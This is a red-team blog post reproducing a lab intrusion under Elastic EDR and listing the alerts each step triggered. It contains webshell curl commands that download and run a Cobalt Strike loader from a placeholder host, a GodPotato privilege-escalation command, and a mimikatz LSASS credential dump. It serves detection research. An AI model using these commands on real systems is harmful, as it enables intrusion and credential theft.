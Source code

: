 ```yaml
---
title: Increase your stealth capabilities - part 1
date: 2024-01-04
categories: [ "Malware Development" ]
tags: [ "research", "command and control", "windows", "edr", "tooling", "detection", "elastic" ]     # TAG names should always be lowercase
---
```


In a recent assessment, my teammates and I were tasked to perform a web security review of several applications with the possibility to perform internal pentest if the opportunity came up.

On one of the application, we successfully uploaded a aspx webshell which executes Windows cmd. The engagement didn’t require us to be stealthy and the goal of this blog post is to reproduce our what we did with Elastic EDR watching us.

## Web RCE

We downloaded our CobaltStrike loader and executed it

```bash
> curl http://website.crash.lab/webshell.aspx --data '70c1cc863a=powershell wget http://xxxx.com/load.exe -outfile C:\Windows\Temp\load.exe'
> curl http://website.crash.lab/webshell.aspx --data '70c1cc863a=C:\Windows\Temp\load.exe'
```

And we got our beacon back

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/initial-cs.png)

If we look at the alerts in Elastic EDR, we can see that we were very noisy.

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/initial-alerts.png)


- `Web Shell Detection: Script Process Child of Common Web Processes` because the IIS process w3wp.exe spawned `cmd.exe`
- `Malicious Behavior Detection Alert: Suspicious Microsoft IIS Worker Descendant` because the IIS process w3wp.exe spawned cmd.exe that suggest the web server has been compromised
- `Remote File Download via PowerShell` because of the `wget` Powershell command to download our loader
- `Memory Threat Detection Alert: Windows.Trojan.CobaltStrike` because Elastic EDR Yara rules flagged our beacon in memory
- `Malicious Behavior Detection Alert: Network Module Loaded from Suspicious Unbacked Memory` - as our beacon is stored in unbacked memory, Elastic EDR caught an API call that came from this suspicious region


The next step of our exploitation was to escalate our privileges from Local Service Account to Local Administrator.

We can do it in two different ways:

- abuse `SeImpersonatePrivilege` privilege to escalate to SYSTEM (we used this way during the engagement)
- abuse Kerberos `S4U2Self` to generate a Service Ticket for a domain user which has local administrator right


## EoP - SeImpersonatePrivilege

We used GodPotato to exploit the `SeImpersonatePrivilege`

```bash
beacon> execute-assembly /home/user/Tools/Windows/GodPotato-NET4.exe -cmd "cmd /c C:\Windows\Temp\load.exe"
```

And we got our SYSTEM beacon back.

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/system-cs.png)

The last action raised the following alerts:

- `Malicious Behavior Detection Alert: Microsoft Common Language Runtime Loaded from Suspicious Memory` - because CLR.dll has been loaded by the post-exploit temporary process
- `Malicious Behavior Detection Alert: AMSI or WLDP Bypass via Memory Patching` - the CobaltStrike AMSI patch has been flagged


## LSASS dump

After we gained SYSTEM privileges, we launched the built-in mimikatz command to dump credentials from LSASS.

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/logonpassword-cs.png)


Which raised alerts:

- `LSASS Process Access via Windows API`
- `Memory Threat Detection Alert: Windows.Hacktool.Mimikatz`
- `LSASS Access Attempt from Unbacked Memory`

![](/assets/posts/2024-01-04-increase-stealth-capabilities-part1/alerts-2.png)

## Conclusion

As we can saw, there are plenty of opportunities to detect our actions during the different phase of the attack path:

- execution of a webshell
- execution of an .NET assembly through execute-assembly
- LSASS dump

In the [next part](/posts/increase-stealth-capabilities-part2/) I will go through each steps again but with detection in mind.
